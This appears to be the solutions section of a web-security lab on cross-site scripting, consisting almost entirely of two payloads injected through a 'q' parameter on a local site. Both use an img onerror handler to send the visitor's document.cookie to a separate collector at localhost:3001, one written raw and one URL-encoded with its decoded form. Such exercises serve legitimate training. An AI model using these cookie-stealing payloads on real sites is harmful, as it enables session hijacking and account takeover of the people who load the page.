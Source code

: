 
# Solutions
1. `http://localhost:3000/?q=<img src=x onerror=this.src='http://localhost:3001/cookie?data='+document.cookie;>`

2.  encoded - `%3Cimg%20src%3Dx%20onerror%3D%22var%20img%20%3D%20document%2EcreateElement%28%27img%27%29%3B%20img%2Esrc%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D%27%20%2B%20document%2Ecookie%3B%22%3E
` decoded - `<img src=x onerror="var img = document.createElement('img'); img.src = 'http://localhost:3001/cookie?data=' + document.cookie;">`
